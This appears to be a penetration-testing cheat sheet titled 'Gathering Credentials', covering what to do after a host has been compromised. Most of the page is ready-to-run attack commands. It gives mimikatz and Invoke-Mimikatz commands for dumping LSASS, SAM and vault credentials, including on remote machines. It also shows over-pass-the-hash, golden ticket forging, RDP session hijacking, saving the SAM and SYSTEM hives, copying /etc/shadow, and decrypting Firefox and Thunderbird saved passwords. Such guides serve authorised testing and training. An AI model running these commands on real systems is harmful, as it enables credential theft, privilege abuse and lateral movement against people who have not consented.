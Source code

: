 ```yaml
---
title: Gathering Credentials
category: Post Exploitation
order: 3
---
```


After compromising a target is important to recollect the maximum credentials to spray them on the network.

# Looking for Interesting Files

If the target have a web application that use a database try to find the `config.php` file in order to obtain the database connection.

Look what type of applications are installed and look for config files in order to find new pair of creds.

# Mimikatz

It can be user to dump credentials,cached logon credentials, SAM, System, LSASS, VAULT, tuickets and more... To dump those credentials admin privs are needed.

```
.\mimikatz.exe
privilege::debug 
sekurlsa::logonpasswords full
sekurlsa::wdigest
sekurlsa::credman
lsadump::sam
vault::cred
vault::list
ts::mstsc
ts::sessions



.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "sekurlsa::wdigest" "sekurlsa::credman" "lsadump::sam" "vault::cred" "vault::list" "ts::mstsc" "exit"
```

> **Note**: if `sekurlsa::logoncredentials` does not work in Windows 10 or Server 2019 download a older realease.
>
> [mimikatz.exe v 2.1.1](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/x64)

## Invoke-Mimikatz

The script is userful to execute mimikatz with PowerShell without droppin the mimikatz exe to disk. Using the code from `ReflectivePEInjection`, mimikatz is loaded reflectively into the memory. All the functions of mimikatz could be used from this script.

Like `mimikatz.exe` the script needs administrative privileges for dumping credentials from local machine.

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

```powershell
Invoke-Mimikatz -DumpCreds
```
We can also dump credentials on multiple remote machines.

```powershell
Invoke-Mimikatz -DumCreds -ComputerName @("machine01","machine02")
```
`Invoke-Mimikatz` gives us the oportunity to excute differents attacks. Examples of Attacks:

* **Over pass the Hash**:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /usr:Administrator /domain:corp.local /ntlm:<ntlmhash> /run:powershell.exe"'
```
* **Crafting a golden ticket**:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156873456-1784235843 /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
# **Hijacking RDP Session**

To hijack a RDP session we need mimikatz.

```
.\mimikatz.exe
privilege::debug
ts::sessions
ts::mstsc
token::elevate
ts::remote /id:3
```

# SAM and SYSTEM (Win)

You can easily dump the SAM and SYSTEM registries using the command prompt. Just open the `cmd.exe` as Administrator and run the following commands:

```
reg save HKLM\SAM c:\windows\temp\sam
reg save HKLM\SYSTEM c:\windows\temp\system
```

Finally on our kali we just need to use `sam2dump` to get the hashes.

```
samdump2 system sam > hashes.txt
```

# PASSWD and SHADOW (Lin)

Same as Windows, when we **pwn** a privilege user such as **root** we can get system users and passwords. In linux we just need to copy the following files to our attacking machine.

```
/etc/passwd
/etc/shadow
```

Finally on our kali machine we just need to use `unshadow` to get the hashes:

```
unshadow passwd shadow > hashes.txt
```

# Mozilla Firefox / Thunderbird / WaterFox / SeaMonkey

Some users victims uses Mozilla Firefox or Mozilla Thunderbird and stores their credentials without protection.

On windows search the following route:

```
C:\Users\VICTIM\AppData\Roaming
```

Zip the content of Firefox or Thunderbird folder and transfer it to the attacking machine. Once transferred we are going to use `firefox-decrypt` tool to get the plaintext credentials.

```
$ python firefox_decrypt.py /folder/containing/profiles.ini/

Master Password for profile /tmp/Thunderbird/Profiles/s68bba5j.default: 
2021-09-21 19:55:06,811 - WARNING - Attempting decryption with no Master Password

Website:   mailbox://test.local
Username: 'eric'
Password: 'sup3rs3cr3t'

Website:   smtp://test.local
Username: 'eric'
Password: 'sup3rs3cr3t'
```

* [https://github.com/unode/firefox_decrypt](https://github.com/unode/firefox_decrypt)
